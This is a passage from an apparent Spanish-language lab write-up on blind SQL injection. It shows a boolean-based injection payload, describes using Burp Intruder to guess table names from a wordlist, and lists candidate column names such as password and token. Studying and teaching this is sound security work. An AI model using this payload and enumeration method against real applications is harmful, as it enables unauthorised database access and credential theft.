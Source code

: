 ```sql
' and (SELECT 'x' FROM PAYLOAD LIMIT 1)='x'--
```

Vamos a usar la herramienta intruder para hacer el ataque.

![Intruder]({{site.url}}/images/SQLi/sqli-11/intruder.png)

Ejemplo de nombre de tablas:

```text
products
items
inventory
orders
order_items
sales
transactions
pricing
categories
customers
clients
users
profiles
subscriptions
addresses
```

Filtramos por las que tengan el mensaje de `Welcome back!` y esa tabla deberia de existir

![filtro]({{site.url}}/images/SQLi/sqli-11/filtro.png)

Filtrado

![filtro]({{site.url}}/images/SQLi/sqli-11/filtrado.png)

## Comprobamos nombres de los campos que tiene la tablas

Ya que `no` conocemos las el nombre de las filas que tiene la tablas, haremos un ataque para comprobar que nombres tiene los campos de la tabla. Si coincide algun campo tendra que mostrar el mensaje `Welcom back!` de lo contrario no mostrara nada. 

```list
id
user_id
username
email
phone_number
uuid
password
hashed_password
salt
token
last_login
login_attempts
first_name
last_name
full_name
date_of_birth
gender
address
city
state
country
postal_code
role
role_id
```